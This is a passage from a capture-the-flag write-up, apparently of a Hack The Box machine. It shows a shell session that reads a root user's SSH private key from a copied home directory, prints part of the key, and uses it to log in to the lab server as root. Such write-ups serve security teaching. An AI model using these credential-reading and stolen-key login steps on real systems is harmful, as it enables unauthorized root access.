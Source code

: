 
As a next step, we retrieved the private `id_rsa` key that we extracted from the newly created file and attempted to log in to the server, this time using the `root` user. 

```bash
martin@code:/tmp$ cd root                                                                                       martin@code:/tmp/root$ ls -lah                                                                                  
total 40K                                                                                                
drwx------ 6 martin martin 4.0K Mar 25 13:10 .                                                           
drwxrwxrwt 8 root   root   4.0K Mar 25 17:52 ..                                                          
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .bash_history -> /dev/null                                  
-rw-r--r-- 1 martin martin 3.1K Dec  5  2019 .bashrc                                                     
drwx------ 2 martin martin 4.0K Aug 27  2024 .cache                                                      
drwxr-xr-x 3 martin martin 4.0K Jul 27  2024 .local                                                      
-rw-r--r-- 1 martin martin  161 Dec  5  2019 .profile                                                    
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .python_history -> /dev/null
-rw-r--r-- 1 martin martin   66 Jul 29  2024 .selected_editor
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .sqlite_history -> /dev/null
drwx------ 2 martin martin 4.0K Aug 27  2024 .ssh
-rw-r----- 1 martin martin   33 Mar 25 13:10 root.txt
drwxr-xr-x 3 martin martin 4.0K Sep 16  2024 scripts
martin@code:/tmp/root$ cd .ssh
martin@code:/tmp/root/.ssh$ ls
authorized_keys  id_rsa
martin@code:/tmp/root/.ssh$ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn

[SNIP]

```

We set the permissions on the `private key` to 600, and afterwards we successfully connected to the server as the `root` user.

```bash
┌─[george@parrot]─[~/htb/lvl1/code]                                                                      
└──╼ $chmod 600 id_rsa_root                                                                                     
┌─[george@parrot]─[~/htb/lvl1/code]
└──╼ $ssh -i id_rsa_root root@10.129.238.121                                                                    
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)
[...SNIP...]
```
